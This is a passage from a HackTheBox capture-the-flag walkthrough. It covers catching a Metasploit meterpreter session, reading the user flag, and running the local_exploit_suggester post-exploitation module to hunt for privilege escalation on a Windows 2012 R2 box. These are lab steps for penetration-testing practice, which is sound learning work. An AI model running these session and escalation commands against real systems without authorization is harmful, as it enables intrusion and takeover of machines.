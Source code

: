 * `set LPORT 51001`
* `run`

![a new session](https://i.imgur.com/0PQHrip.png "a new session")
(note - sometimes this exploit will spawn you multiple sessions - just as a bonus! It has given me as many as 5!)

Now, we have the right type of meterpreter - let's move forward.

## 6. The User Flag and Privilege Escalation

The first thing we should do is grab the user flag. The convention of HTB boxes is that user and root flags are kept in those users' home or desktop directories. 

* `getuid` tells what user we are running as. 'kostas' doesn't sound like root.
* `pwd` Tells us our current working directory - the User's desktop, how convenient.
* `ls` Shows the files in this directory - `user.txt.txt` looks promising.
* `cat user.txt.txt` will output the contents of the user flag file to the screen. Copy them down and submit them on HackTheBox!

![Flag Captured!](https://i.imgur.com/zN1IZBL.png "Flag Captured!")

### What to do next? Any suggestions?

One of the advantages of the Meterpreter shell is scalability. Once you have in running on a machine, moving forward is made easier.
`post` modules are used post-exploitation, after you already have a meterpreter shell running on a machine.

Meterpreter has the ability to automatically search for information about the machine is it running on. 
It can use this information to find more vulnerabilities, and then suggest exploits to provide higher level access.

One module that is useful for this process is the `local_exploit_suggester` - which does exactly what you'd think.
It looks at the properties of the machine it is running on, and suggests exploit modules to use.

Run these commands:
* `use post/multi/recon/local_exploit_suggester` 
* `set SESSION 2` to point the exploit at our x64 meterpreter session
* Optionally, run `set SHOWDESCRIPTION true` if you want to have a detailed explanation of any suggested exploits.
* `run`

![Local Exploit Suggester](https://i.imgur.com/aLLt4cC.png "Local Exploit Suggester")

Well, it ran - but it didn't come up with any suggestions. Let's see if we can find anything ourselves.

* `sessions 2` will take us back to our x64 meterpreter session
* `sysinfo` will give us some info to start searching for exploits - Windows 2012 R2, x86_64.

### We have a technical question - how can we find an answer?
